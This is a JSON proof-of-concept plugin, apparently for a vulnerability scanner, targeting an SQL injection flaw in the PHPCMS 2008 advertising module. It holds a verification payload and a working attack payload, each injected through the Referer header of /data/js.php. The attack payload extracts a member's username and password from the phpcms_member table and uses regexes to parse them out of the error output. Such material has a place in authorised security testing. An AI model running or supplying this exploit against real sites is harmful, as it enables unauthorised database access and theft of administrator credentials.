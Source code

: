 ```
        "appVersion" : "2008",
        "appPowerLink":"http://www.phpcms.cn",
        "desc" :"phpcms 2008 中广告模块，存在参数过滤不严，导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，如果关闭了错误显示，可以采用基于时间和错误的盲注",
        "samples": ["http://127.0.0.1"]
    },

    "pocExecute":{
        "verify": [
            {
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45,45),(SELECT md5(1)))a from information_schema.tables group by a)b), '0')#"},
                "status": "200",
                "match": {
                    "regex": ["c4ca4238a0b923820dcc509a6f75849b"],
                    "time":""
                }
            }
        ],
        "attack": [
            {
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45),(SELECT concat(username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1))a from information_schema.tables group by a)b), '0')#"},
                "status":"200",                
                "match":{
                    "regex": ["Duplicate"],
                    "time": ""
                },
                "result":{
                    "AdminInfo":{
                        "Username":"<regex>--(.+)---",
                        "Password": "<regex>---(.+)--"
                    }
                }
            }
        ]
    }
}

```
